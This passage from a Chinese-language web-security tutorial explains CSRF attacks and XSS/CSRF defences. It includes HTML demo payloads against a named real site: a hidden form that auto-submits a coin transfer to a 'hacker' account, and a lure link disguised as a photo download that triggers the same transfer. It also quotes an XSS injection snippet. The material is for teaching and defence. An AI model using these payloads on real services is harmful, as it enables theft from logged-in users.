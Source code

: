 ```html
html

 代码解读
复制代码<!DOCTYPE html>
<html>
  <body>
	<h1>黑客的站点: CSRF攻击演示</h1>
	<form id= 'hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
	  <input type="hidden" name="userll" value="hacker" />
	  <input type="hidden" name="numberll" value="100" />
	</form>
	<script> document.getElementById ('hacker-form').submit(); </script> 
  </body>
</html>
```

在这段代码中,我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后,这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点POST数据提交。

### 3. 引诱用户点击链接

除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接,示例代码如下所示:

```html
html

 代码解读
复制代码<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1-161230185104_1.jpg> </img> 
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_bla点击下载美女照片"
  </a>
</div>
```

这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

以上三种就是黑客经常采用的攻击方式。如果当用户登录了极客时间,以上三种CSRF攻击方式中的任何一种发生时，那么服务器都会将一定金额的极客币发送到黑客账户。

到这里，相信你已经知道什么是CSRF攻击了。**和xss不同的是，CSRF攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。**

## 攻击防御

1. `xss`防御的关键点在于：一切插入到页面中的数据都应该进行安全过滤。不管是文本，还是一些`dom`元素(例如可以通过注入`<img onError="<script>xxx</script>"`)。同时，为了防止已有的数据对现有项目进行影响，还需要做到对`cookie`做控制，利用`CSP`防止恶意代码拉取外部`js`执行
2. `csrf`防御的关键点在于保护用户的登录信息 / 其他重要信息。防止轻易的被恶意代码拿到。例如放到`header`，验证请求发起的来源等等。

### XSS防御

我们知道存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞。而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞。

但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上。

所以要阻止 XSS 攻击，我们可以通过阻止恶意 JavaScript 脚本的注入和恶意消息的发送来实现。
